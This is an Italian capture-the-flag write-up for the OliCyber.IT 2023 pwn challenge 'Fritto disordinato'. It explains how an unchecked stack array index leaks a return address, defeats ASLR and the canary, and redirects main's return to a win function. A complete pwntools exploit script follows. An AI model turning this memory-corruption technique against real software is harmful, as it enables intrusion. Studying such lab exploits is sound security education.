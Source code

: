 # OliCyber.IT 2023 - Selezione territoriale

## [binary-3] Fritto disordinato (7 risoluzioni)

La chall è una classica pwn, in cui esaminando il sorgente si vede in fretta la presenza di una win function che stampa la flag.
La funzione non è raggiungibile usando il programma in modo convenzionale, è necessario arrivarci corrompendo in qualche modo la memoria del processo.
Il binario è compilato staticamente e sono attive tutte le protezioni, ASLR, canary, NX.

Esaminando qualche dettaglio extra del sorgente, vediamo che all'interno della chall c'è un array di interi di lunghezza fissa allocato sullo stack e questo array viene utilizzato come "ordine" di una lista di stringhe, la canzone del gabibbo. Usando il programma come da specifiche, possiamo settare e leggere i valori su questo array, oppure provare a far cantare la canzone al gabibbo, che non sarà contento di cantarla out-of order.

### Soluzione

Possiamo notare che non viene fatto alcun tipo di bounds check quando andiamo a leggere o scrivere su questo array. Dato che l'array è sullo stack, abbiamo già praticamente vinto. Leggendo out of bound possiamo infatti andare a leggere un sacco di cose utili:

- indirizzi dell'eseguibile (non della libc, è linkato staticamente)
- indirizzi dello stack
- il canary
- indirizzi dell'heap

Di questi in realtà abbiamo bisogno solo dell'indirizzo dell'eseguibile, essendo linkato staticamente e avendo una win function pronta. Una volta letto un qualsiasi indirizzo dell'eseguibile dallo stack possiamo ricavarci la base dell'esegubile e quindi calcolare l'indirizzo della funzione win, essendo sempre ad un offset fisso le une rispetto alle altre. Per trovare un indirizzo dell'esegubile, possiamo ricordarci che lo stack-frame x86 è sempre

```text
canary
old_rbp
return_address
```

per cui esaminando con gdb la memoria subito prima della chiamata a `printf` in `load_num`, possiamo vedere come ci sia per esempio l'indirizzo a cui deve tornare la funzione `load_num` sullo stack, poco più in alto rispetto al vettore che controlliamo.
Ricordando che sono interi a 32bit, mentre gli indirizzi sono a 64, dovremo leggere due numeri, rispettivamente alla posizione -10, -9, che saranno la parte più e meno significativa del numero.

Ottenuto questo leak di informazioni possiamo sovrascrivere l'indirizzo a cui ritorna la funzione `main`, mettendoci l'indirizzo della funzione `win`. Dovremo anche in questo caso scrivere due numeri, che saranno ad offset 34, 35 (in realtà non dobbiamo davvero cambiare la parte più significativa dell'indirizzo perché sarà già quella giusta, ma lo facciamo comunque perché abbiamo una primitiva che permette di fare tutto e questo è un caso più generale).

### Exploit

```python
#!/usr/bin/env python3
from pwn import ELF, context, process, log, ui, args, remote
from os.path import split

exe = context.binary = ELF("fritto")
remotehost = ("fritto-disordinato.challs.olicyber.it", 34000)


def menu(io, choice: int):
    io.sendlineafter(b"> ", f"{choice}".encode())


def store(io, pos: int, val: int):
    menu(io, 0)
    io.sendlineafter(b"numero?", f"{pos}".encode())
    io.sendlineafter(b"scriverci?", f"{val}".encode())


def read(io, pos: int):
    menu(io, 1)
    io.sendlineafter(b"leggere?\n", f"{pos}".encode())
    val = int(io.recvline(False).decode().split(":")[1].strip())
    return (2**32 + val) % 2**32


def read_8_bytes(io, pos: int):
    val1 = read(io, pos)
    val2 = read(io, pos + 1)
    return val1 + (val2 << 32)


def write_8_bytes(io, pos: int, val: int):
    store(io, pos + 1, val >> 32)
    store(io, pos, val % 2**32)


def canzone():
    io = process([exe.path], cwd=split(exe.path)[0])
    for i, pos in enumerate([13, 3, 14, 1, 9, 7, 10, 15, 17, 12, 16, 6, 11, 2, 8, 0, 4, 5]):
        store(io, i, pos)
    menu(io, 2)
    io.interactive()


def main():
    if args.REMOTE:
        io = remote(*remotehost)
    else:
        io = process([exe.path], cwd=split(exe.path)[0], env={"FLAG": "flag{test}"})
        ui.pause()
    io.recvuntil(b"Canta la canzone")
    retaddr = read_8_bytes(io, -10)
    log.success(f"Leaked {retaddr = :#018x}")
    exe.address = retaddr - (exe.sym['main'] + 241)
    log.success(f"Leaked {exe.address = :#018x}")
    write_8_bytes(io, 34, exe.sym['win'])
    menu(io, 7)
    io.interactive()


if __name__ == "__main__":
    main()
```
